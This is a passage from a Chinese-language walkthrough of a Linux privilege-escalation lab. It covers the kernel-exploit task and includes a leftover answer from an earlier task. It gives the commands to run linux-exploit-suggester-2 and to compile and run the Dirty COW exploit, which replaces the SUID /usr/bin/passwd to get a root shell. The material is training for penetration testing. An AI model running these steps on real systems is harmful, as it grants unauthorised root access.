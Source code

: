 > ***答案:no_root_squash***

# 任务 20:内核漏洞

内核漏洞可能会使系统处于不稳定状态，这就是为什么您应该只在万不得已时才运行它们。

运行 **Linux 漏洞利用建议器 2** 工具，识别当前系统上潜在的内核漏洞利用:

```
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

应该列出流行的 Linux 内核漏洞“Dirty COW”。Dirty COW 的漏洞利用代码可以在**/home/user/tools/kernel-exploits/Dirty COW/c0w . c**找到。它将 SUID 文件/usr/bin/passwd 替换为一个生成 shell 的文件(在/tmp/bak 中创建了/usr/bin/passwd 的备份)。

编译并运行代码(注意，可能需要几分钟才能完成):

```
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

一旦攻击完成，运行/usr/bin/passwd 获得根外壳:

```
/usr/bin/passwd
```

记得在继续之前恢复原始的/usr/bin/passwd 文件并退出根 shell！

```
mv /tmp/bak /usr/bin/passwd
exit
```
